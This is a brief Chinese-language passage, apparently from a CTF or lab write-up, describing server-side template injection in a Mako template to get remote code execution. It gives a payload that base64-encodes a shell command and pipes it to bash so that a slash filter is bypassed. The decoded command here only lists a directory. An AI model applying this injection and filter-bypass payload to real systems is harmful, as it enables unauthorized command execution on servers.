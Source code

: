 成功 RCE。

这里如果用斜杠字符的话会被识别，我们得想办法绕过斜杠，最简单的方法就是 echo 搭配 base64 绕过。

还需要 url 编码一下。

`<%str(__M_writer(str(__import__("os").popen("echo bHMgLw== | base64 -d | bash").read())))%>`

![](../../../images/d102cb6b14430dd3cee5bebb111358e1.png)

![](../../../images/2b6dcfbfa2ad1109aaa5a10c0b79719a.png)



